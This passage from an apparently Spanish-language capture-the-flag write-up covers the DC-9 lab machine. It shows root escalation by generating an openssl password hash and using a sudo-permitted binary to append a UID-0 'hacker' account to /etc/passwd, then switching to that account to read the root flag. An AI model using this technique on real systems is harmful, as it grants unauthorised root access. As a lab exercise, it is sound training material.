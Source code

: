 Modificando `/etc/passwd`

> Formato del archivo `/etc/passwd`: user:x:1000:1000:,,,:/home/user:/bin/bash

```
❯ openssl passwd -1 -salt hacker test123
$1$hacker$0DMAtu6laJLYlaNik7Dw31
```

```
fredf@dc-9:/tmp$ cat test 
hacker:$1$hacker$0DMAtu6laJLYlaNik7Dw31:0:0:/root/root:/bin/bash
```

```
fredf@dc-9:/tmp$ sudo /opt/devstuff/dist/test/test /tmp/test /etc/passwd
fredf@dc-9:/tmp$ su hacker
Password: 
# cat /root/root.txt
# whoami
root
# cat /root/*


███╗   ██╗██╗ ██████╗███████╗    ██╗    ██╗ ██████╗ ██████╗ ██╗  ██╗██╗██╗██╗
████╗  ██║██║██╔════╝██╔════╝    ██║    ██║██╔═══██╗██╔══██╗██║ ██╔╝██║██║██║
██╔██╗ ██║██║██║     █████╗      ██║ █╗ ██║██║   ██║██████╔╝█████╔╝ ██║██║██║
██║╚██╗██║██║██║     ██╔══╝      ██║███╗██║██║   ██║██╔══██╗██╔═██╗ ╚═╝╚═╝╚═╝
██║ ╚████║██║╚██████╗███████╗    ╚███╔███╔╝╚██████╔╝██║  ██║██║  ██╗██╗██╗██╗
╚═╝  ╚═══╝╚═╝ ╚═════╝╚══════╝     ╚══╝╚══╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝╚═╝
                                                                             
Congratulations - you have done well to get to this point.

Hope you enjoyed DC-9.  Just wanted to send out a big thanks to all those
who have taken the time to complete the various DC challenges.

I also want to send out a big thank you to the various members of @m0tl3ycr3w 

They are an inspirational bunch of fellows.

Sure, they might smell a bit, but...just kidding.  :-)

Sadly, all things must come to an end, and this will be the last ever
challenge in the DC series.

So long, and thanks for all the fish.
```
